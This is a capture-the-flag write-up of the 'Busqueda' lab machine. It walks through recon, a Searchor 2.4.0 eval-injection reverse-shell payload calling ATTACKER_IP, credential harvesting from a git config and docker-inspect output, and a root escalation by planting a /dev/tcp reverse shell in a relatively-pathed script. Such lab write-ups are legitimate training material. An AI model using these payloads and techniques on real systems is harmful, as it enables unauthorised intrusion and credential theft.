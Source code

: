 # Busqueda

### Typology:

_Linux_

I start the machine with a simple nmap scan:
```bash	
nmap -p- -sC -sV 10.10.11.208
```
output:
```bash	
22/tcp open  ssh
80/tcp open  http
```
I started taking a look at port 80 on browser, but i need to add the host at __"/etc/hosts"__ with the domain name:
```bash	
echo "10.10.11.208  searcher.htb" >> /etc/hosts
```
The site is runned by __"Flask and Searchor 2.4.0"__; by searching this version we find a vulnerability that was fixed in the next version, in the fix the developers removed 3 lines of code with an evla() statement:
```python	
url = eval(
    f"Engine.{engine}.search('{query}', copy_url={copy}, open_web={open})"
)
```
after a bit of searching online i found a POC at this [link](https://github.com/nexis-nexis/Searchor-2.4.0-POC-Exploit-), in the repo there is a payload:
```	
', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('ATTACKER_IP',PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#
```
we just need to replace ATTACKER_IP and PORT with ours. so we can start our listener (i use pwncat) send the payload:
```bash	
python3 -m pwncat -lp 4444
```
we are in as SVC user and we can go in our /home directory and submit the first flag as usually I uploaded __"linpeas"__ using pwncat's command:
```bash	
Ctrl + "d"
upload /home/kali/Pentest/linpeas.sh /tmp/linpeas.sh
Ctrl + "d"
cd /tmp
bash linpeas.sh
```
Linpeas output a .git folder in the /var/www/app and there is a config file:
```git	
[core]
repositoryformatversion = 0
filemode = true
bare = false
logallrefupdates = true
[remote "origin"]
	url = http://cody:[REDACTED]@gitea.searcher.htb/cody/Searcher_site.git
	fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
	remote = origin
	merge = refs/heads/main
```
the interesting part is this one:
```	
http://cody:[REDACTED]@gitea.searcher.htb/cody/Searcher_site.git
```
Indeed we can retrieve username and password of cody account on gitea but there isn't anything that it could be use;

After some minutes I ran this command:
```bash
sudo -l
```
output:
```	
Matching Defaults entries for svc on busqueda:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```
by running the command as root we get 3 options:
```bash	
docker-ps     : List running docker containers
docker-inspect : Inpect a certain docker container
full-checkup  : Run a full system checkup
```
then:
```bash	
sudo -u root /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps
```
output:
```bash	
CONTAINER ID   IMAGE                COMMAND                  CREATED        STATUS        PORTS                                             NAMES
960873171e2e   gitea/gitea:latest   "/usr/bin/entrypoint…"   4 months ago   Up 23 hours   127.0.0.1:3000->3000/tcp, 127.0.0.1:222->22/tcp   gitea
f84a6b33fb5a   mysql:8              "docker-entrypoint.s…"   4 months ago   Up 23 hours   127.0.0.1:3306->3306/tcp, 33060/tcp               mysql_db
```
so I have an idea of what containers are running and I have their ID so i can inspect them with the next command:
```bash
sudo -u root /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect --format='{{json .Config}}' 960873171e2e
```
output:
```bash
[....]
"USER_UID=115","USER_GID=121","GITEA__database__DB_TYPE=mysql","GITEA__database__HOST=db:3306","GITEA__database__NAME=gitea","GITEA__database__USER=gitea","GITEA__database__PASSWD=[REDACTED]"
[....]
```
so we found a password for another user on gitea... maybe the admin, the right one it was Administrator

Now we are inside of the administrator repo where there are all the scripts that we can run as root while beeing unprivileged user

Inside the repo we can se the vulnerable line of code that we can take advantage of:
```python
elif action == 'full-checkup':
try:
    arg_list = ['./full-checkup.sh']
```
If we pass the "full-checkup" argument the script runs a full-checkup.sh from the actual directory so there is a possibility to craft our exploit:
```bash	
cd /tmp
echo "#!/bin/bash" >> full-checkup.sh
echo "/bin/bash -i >& /dev/tcp/10.10.14.156/6666 0>&1" >> full-checkup.sh
chmod +x full-checkup.sh
```
Now we have prepared our rev-shell payload and we can setup our (pwncat in my case) listener and run the script in /tmp directory:
```bash
python3 -m pwncat  -lp 6666
```
then:
```bash
sudo -u root /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```
We're root and we can submit the root flag.
